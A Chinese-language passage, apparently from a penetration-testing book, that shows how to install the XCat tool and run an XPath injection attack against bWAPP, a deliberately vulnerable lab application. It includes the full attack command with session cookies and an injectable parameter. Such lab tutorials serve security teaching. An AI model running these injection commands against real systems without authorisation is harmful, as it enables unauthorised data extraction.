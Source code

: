 您可以看到，响应包含的信息比原始查询多得多，并且应用不会在正常搜索中显示其中一些信息。

# XCat 的 XPath 注入

**XCat**是一个用 Python 3 编写的工具，它可以帮助您使用 XPath 注入漏洞检索信息。默认情况下，它不包括在 Kali Linux 中，但可以轻松添加。您需要在 Kali Linux 中安装 Python 3 和 pip，然后在 Terminal 中运行以下操作：

```
apt-get install python3-pip
pip3 install xcat
```

安装 XCat 后，您需要在 bWAPP 中进行认证，以获取易受攻击的 URL 和 cookie，这样您就可以发出具有以下结构的命令：

```
xcat -m <http_method> -c "<cookie value>" <URL_without_parameters> <injecable_parameter> <parameter1=value> <parameter2=value> -t "<text_in_true_results>" 
```

在这种情况下，命令如下所示：

```
xcat -m GET -c "PHPSESSID=kbh3orjn6b2gpimethf0ucq241;JSESSIONID=9D7765D7D1F2A9FCCC5D972A043F9867;security_level=0" http://10.7.7.5/bWAPP/xmli_2.php genre genre=horror action=search -t ">1<" 
```

请注意，我们使用`">1<"`作为真正的字符串。这是因为只有在找到至少一个结果时，结果表中的数字才会出现。对 bWAPP 运行该命令将导致如下结果：

![](img/00159.jpeg)
